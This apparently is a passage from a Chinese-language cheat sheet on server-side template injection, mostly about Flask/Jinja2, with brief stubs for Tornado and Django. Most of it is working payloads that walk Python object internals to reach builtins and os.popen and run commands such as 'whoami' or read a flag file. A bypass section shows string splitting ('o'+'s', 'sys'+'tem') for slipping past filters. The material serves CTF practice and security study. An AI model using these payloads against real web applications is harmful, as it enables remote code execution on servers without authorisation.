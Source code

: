 ```python
config
request.environ

request.__class__.__mro__[-1]
session.__class__.__mro__[-1]

get_flashed_messages.__globals__['current_app'].config
url_for.__globals__['current_app'].config

url_for.__globals__['__builtins__']
get_flashed_messages.__globals__['__builtins__']
lipsum.__globals__['__builtins__']

undefinded.__class__.__init__.__globals__['__builtins__']
undefinded.__init__.__globals__['__builtins__']

config.__class__.__init__.__globals__['os']['popen']('whoami').read()
```

```python
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__']['__imp' + 'ort__']('o'+'s').__dict__['po' + 'pen']('cat /this_is_the_f'+'lag.txt').read() }}
{%endif%}
{%endfor%}
```

### Tornado

```python
handler.settings
```

### Django

留个坑

## Bypass

### 拼接

通过 `__dict__` 绕过

```python
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['o'+'s'].__dict__['sys'+'tem']('whoami')

''.__class__.__mro__[-1].__subclasses__()[40]('fl'+'ag.txt').read()
```

flask 中还能直接通过以下方式拼接字符串, 不用 `+`
